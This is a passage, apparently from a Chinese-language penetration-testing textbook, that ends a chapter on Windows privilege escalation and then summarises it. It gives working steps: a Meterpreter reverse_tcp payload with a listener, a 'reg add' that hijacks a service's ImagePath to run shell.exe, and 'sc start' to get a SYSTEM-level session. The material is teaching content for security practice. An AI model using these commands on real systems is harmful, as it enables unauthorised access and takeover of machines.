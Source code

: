     **set payload /windows/x64/meterpreter/reverse_tcp**

    现在，我们需要配置模块选项。在这种情况下，我们需要配置 **LHOST** 和 **LPORT** 选项，如下图所示：

    ![图 9.18 – Meterpreter 有效载荷选项    ](img/B17389_09_018.jpg)

    图 9.18 – Meterpreter 有效载荷选项

1.  设置模块选项后，我们可以通过运行以下命令来启动监听器：

    **run**

    监听器将监听来自我们使用 **MSFvenom** 生成的自定义可执行文件的任何传入连接。

1.  现在，我们可以修改目标注册表服务的 **ImagePath** 值，并将其设置为我们生成的自定义可执行文件的路径。可以通过在目标的 Windows 命令行中运行以下命令来完成：

    **reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Temp\shell.exe" /f**

    如果成功，新的值应该被写入。现在，服务将在下次启动或重启时执行我们的自定义可执行文件。

1.  我们可以通过在 Windows 命令行中运行以下命令来启动服务：

    **sc start regsvc**

1.  服务现在将执行我们的自定义可执行文件，并在我们设置的监听器上提供提升权限的 Meterpreter 会话，如下图所示：

![图 9.19 – 提升权限的 Meterpreter 会话](img/B17389_09_019.jpg)

图 9.19 – 提升权限的 Meterpreter 会话

现在，你应该对如何识别 Windows 注册表中的配置错误有了清晰的理解，并且知道如何利用这些错误来提升你在目标系统上的权限。

# 总结

在本章中，我们了解了 Windows 注册表的工作原理以及它如何存储数据。接着，我们探索了如何识别和利用 Windows 中的 Autorun 功能来提升权限。我们还探讨了如何利用 Windows 中的 AlwaysInstallElevated 功能，通过手动或自动的方式（使用 Metasploit）提升权限。最后，我们了解了如何利用弱注册表服务权限进行攻击。

在下一章中，我们将通过探索识别和利用内核漏洞的过程，开始在 Linux 上进行权限提升过程。
